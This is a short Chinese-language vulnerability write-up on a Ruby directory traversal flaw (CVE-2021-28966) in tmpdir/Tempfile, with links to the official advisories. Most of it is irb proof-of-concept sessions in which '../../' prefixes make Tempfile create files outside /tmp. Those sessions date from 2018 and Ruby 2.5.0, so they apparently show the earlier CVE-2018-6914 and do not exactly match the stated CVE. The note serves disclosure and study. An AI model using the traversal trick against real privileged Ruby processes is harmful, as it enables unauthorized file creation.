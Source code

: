 # Ruby目录遍历漏洞（CVE-2021-28966）

由于tmpdir库的Dir.mktmpdir方法会将第一个参数作为创建的目录的前缀和后缀，并且前缀中没有过滤说明符"..\\"，因此攻击者可进行遍历目录，并且当Ruby进程具有较高的权限时，攻击者则可以在任何目录中创建目录或文件。

ruby 在4月5号公开的漏洞，是CVE-2018-6914 修复不完善导致的绕过。


影响版本：

* Ruby < 2.7.2
* Ruby = 3.0.0

create file patern


```
[vagrant@localhost ~]$ ls .
[vagrant@localhost ~]$ irb
irb(main):001:0> require 'tempfile'
=> true

irb(main):002:0> Tempfile.open(['../../home/vagrant/', '.red'])
=> #<Tempfile:/tmp/../../home/vagrant/20180103-4697-uwqiop.red>
irb(main):003:0> `ls`
=> "20180103-4697-uwqiop.red\n"

irb(main):004:0> Tempfile.new("/../../home/vagrant/green")
=> #<Tempfile:/tmp/../../home/vagrant/green20180103-4697-1wbl81o>
irb(main):005:0> `ls`
=> "20180103-4697-uwqiop.red\ngreen20180103-4697-1wbl81o\n"

irb(main):006:0> Tempfile.create("/../../home/vagrant/blue") {|f| p f.path}
"/tmp/../../home/vagrant/blue20180103-4697-1udvlji"
=> "/tmp/../../home/vagrant/blue20180103-4697-1udvlji"

# It can not be created because suffix specifies a directory that does not exist.
irb(main):007:0> Tempfile.open(['hoge', '/../../home/vagrant/bar'])
Traceback (most recent call last):
        9: from /home/vagrant/.rbenv/versions/2.5.0/bin/irb:11:in `<main>'
        8: from (irb):7
        7: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:291:in `open'
        6: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:291:in `new'
        5: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:131:in `initialize'
        4: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tmpdir.rb:126:in `create'
        3: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:133:in `block in initialize'
        2: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:133:in `open'
        1: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:133:in `initialize'
Errno::ENOENT (No such file or directory @ rb_sysopen - /tmp/hoge20180103-4697-utss0s/../../home/vagrant/bar)
```

If the file exists


```
[vagrant@localhost ~]$ ls
test
[vagrant@localhost ~]$ irb
irb(main):001:0> require 'tempfile'
=> true
irb(main):002:0> Tempfile.new("/../../home/vagrant/test/xxx")
Traceback (most recent call last):
        8: from /home/vagrant/.rbenv/versions/2.5.0/bin/irb:11:in `<main>'
        7: from (irb):2
        6: from (irb):2:in `new'
        5: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:131:in `initialize'
        4: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tmpdir.rb:126:in `create'
        3: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:133:in `block in initialize'
        2: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:133:in `open'
        1: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:133:in `initialize'
Errno::ENOTDIR (Not a directory @ rb_sysopen - /tmp/../../home/vagrant/test/xxx20180103-4783-1f4l2ox)

```

ref：

* https://www.ruby-lang.org/en/news/2018/03/28/unintentional-file-and-directory-creation-with-directory-traversal-cve-2018-6914/
* https://hackerone.com/reports/302298
* https://nvd.nist.gov/vuln/detail/CVE-2021-28966